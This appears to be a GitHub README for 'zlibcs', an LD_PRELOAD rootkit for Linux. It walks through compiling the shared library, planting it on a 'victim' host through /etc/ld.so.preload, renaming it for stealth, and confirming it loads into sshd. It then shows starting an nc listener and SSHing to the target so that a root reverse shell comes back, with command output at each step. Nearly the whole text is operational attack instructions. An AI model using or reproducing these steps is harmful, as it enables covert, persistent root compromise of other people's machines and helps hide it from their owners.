
zlibcs


Compile:
```bash
root@attacker:~# gcc zlibcs.c -o zlibcs.so -fPIC -shared -ldl -D_GNU_SOURCE
```

## Installation
On the target, copy the shared library/rootkit to where the other shared libraries reside.

64-bit example:
```bash
root@victim:~# cp zlibcs.so /lib/x86_64-linux-gnu/
```
And copy the path of the rootkit into /etc/ld.so.preload.
```bash
root@victim:~# echo "/lib/x86_64-linux-gnu/zlibcs.so" > /etc/ld.so.preload
root@victim:~# echo "/lib/zlibcs.so" > /etc/ld.so.preload
```

I would advise renaming `zlibcs.so` to something more stealthy.

### Verify installation
You can check if the rootkit is installed by running```ldd``` and checking that your malicious library gets loaded.
```bash
root@victim:~# ldd /usr/sbin/sshd
	linux-vdso.so.1 (0x00007ffe9214c000)
	/lib/x86_64-linux-gnu/zlibcs.so (0x00007f17ed354000)
    [...]
```
Also check /etc/ld.so.preload for your entry.
```bash
root@victim:~# cat /etc/ld.so.preload 
/lib/x86_64-linux-gnu/zlibcs.so
```

## Usage
1. Install as above
2. Start a listener to receive reverse shell
```bash
root@attacker:~# nc -lvnp 9001
```
3. SSH to the target machine. A shell should spawn on your listener.
It (almost) always doens't work the first time, so SSH twice.
```bash
root@attacker:~# ssh hey@10.11.0.56
hey@10.11.0.56's password:
^C
root@attacker:~# ssh hey@10.11.0.56
hey@10.11.0.56's password:
^C
```
```bash
root@attacker:~# nc -lvnp 9001
[...]
Connection received
[+] spawning shell... 
id
uid=0(root) gid=0(root) groups=0(root)
```

## Remove rootkit
Delete `/etc/ld.so.preload` and delete the maliciuos library. 
Nothing else needed.
```bash
root@victim:~# rm /etc/ld.so.preload
root@victim:~# rm /lib/x86_64-linux-gnu/zlibcs.so
```

